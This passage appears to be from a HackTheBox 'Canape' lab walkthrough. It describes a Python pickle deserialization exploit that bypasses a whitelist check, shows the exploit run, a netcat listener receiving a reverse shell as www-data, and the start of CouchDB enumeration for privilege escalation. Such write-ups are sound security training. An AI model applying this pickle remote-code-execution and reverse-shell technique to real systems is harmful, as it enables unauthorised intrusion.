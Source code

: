 [*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/canape)

Run exploit `pickle-canape.py`.

+ Function `create_payload`: Create payload contain data after dump `class Shell` with `cPickle.dumps`. Class Shell must contain string in white list to bypass check.
+ Get file name by hashing md5 value in `char` and `quote`
+ Sent another request to call function check at `/check` to trigger payload

```
┌──(Hades㉿10.10.14.6)-[1.8:44.6]~/walkthrough/hackthebox/canape
└─$ python pickle-canape.py 10.10.10.70                                                                                                                                 7 ⨯

>> http://10.10.10.70:80/submit ... 

[+] File name: 59d0b71be7d949629edf95b0dbe881cb

>> http://10.10.10.70:80/check ...
```

At listener, I have reverse shell

```
┌──(Hades㉿10.10.14.6)-[1.8:44.6]~/walkthrough/hackthebox/canape
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.70] 40798
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Privilege Escalation

### Local enumeration

At file `__init__.py`, I also know the server was using `couchdb` database at localhost port 5984 with database named simpsons.

``` python
app.config.update(
    DATABASE = "simpsons"
)
db = couchdb.Server("http://localhost:5984/")[app.config["DATABASE"]]
```

Checking running service

```
www-data@canape:/var/www/html$ netstat -antup
<snip>              
tcp        0      0 127.0.0.1:5984          0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:38592           0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:5986          0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:4369            0.0.0.0:*               LISTEN      -              
<snip>
```
